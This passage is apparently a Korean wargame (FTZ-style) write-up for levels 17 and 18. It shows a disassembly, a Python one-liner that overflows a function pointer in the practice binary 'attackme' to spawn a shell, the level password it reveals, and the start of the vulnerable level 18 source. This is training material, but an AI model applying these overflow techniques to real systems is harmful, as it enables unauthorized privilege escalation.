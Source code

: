 ```asm
0x080484d4 <main+44>:	push   0xc1a
0x080484d9 <main+49>:	call   0x8048380 <setreuid>
0x080484de <main+54>:	add    esp,0x10
0x080484e1 <main+57>:	mov    eax,DWORD PTR [ebp-16]
0x080484e4 <main+60>:	call   eax
0x080484e6 <main+62>:	leave
0x080484e7 <main+63>:	ret
0x080484e8 <main+64>:	nop
0x080484e9 <main+65>:	nop
0x080484ea <main+66>:	nop
0x080484eb <main+67>:	nop
0x080484ec <main+68>:	nop
0x080484ed <main+69>:	nop
0x080484ee <main+70>:	nop
0x080484ef <main+71>:	nop
```

### 4. exploit code
(python -c 'print "A"*40+"\x62\xf4\xff\xbf"';cat) | ./attackme
id
uid=3098(level18) gid=3097(level17) groups=3097(level17)
my-passwd
/bin/sh: line 2: my-passwd: command not found
my-pass
TERM environment variable not set.
Level18 Password is "why did you do it".

이번 문제는 처음에 call()함수를 실행하기 위해 eip를 변조해야 한다고 생각을 했다.
하지만 내가 변조해야 할 부분은 *call부분에 실행할 함수를 입력하는 것이었다...
buf[20] > dummy[20] > *call[4] > dummy[4] > crap[4] > dummy[4] > sfp[4] > ret[4]
이런식으로 스택이 쌓이기 때문에 *call[4]를 변조하면 된다.

## level18

### 1. Directory info
### 2. hint
```c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);

```